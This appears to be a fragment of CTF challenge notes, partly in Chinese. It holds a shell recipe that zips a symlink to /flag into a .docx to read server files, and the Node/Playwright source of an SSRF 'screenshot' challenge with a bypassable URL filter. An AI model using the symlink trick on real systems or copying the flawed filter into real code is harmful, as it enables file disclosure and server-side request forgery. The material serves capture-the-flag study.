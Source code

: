 ```diff
```

比较一下,extractTarget不直接接收post,而是根据target给extractTarget赋值,头疼...

---

zip #zip
```shell
mkdir word;
ln -s /flag word/document.xml;
zip -ry attack.docx word;
```



### Screenshot
#ssrf
```js
const playwright = require("playwright");
const express = require("express");
const morgan = require("morgan");

const main = async function () {
  const browser = await playwright.chromium.launch();

  const app = express();

  // Logging
  app.use(morgan("short"));

  app.use(express.static("static"));

  app.get("/api/screenshot", async function (req, res) {
    const context = await browser.newContext();
    context.setDefaultTimeout(5000);

    try {
      if (!req.query.url.includes("http") || req.query.url.includes("file")) {
        res.status(400).send("Bad Request");
        return;
      }

      const page = await context.newPage();

      const params = new URLSearchParams(req.url.slice(req.url.indexOf("?")));
      await page.goto(params.get("url"));

      const buf = await page.screenshot();

      res.header("Content-Type", "image/png").send(buf);
    } catch (err) {
      console.log("[Error]", req.method, req.url, err);
      res.status(500).send("Internal Error");
    } finally {
      await context.close();
    }
  });

  app.listen(80, () => {
    console.log("Listening on port 80");
  });
};

main();

```
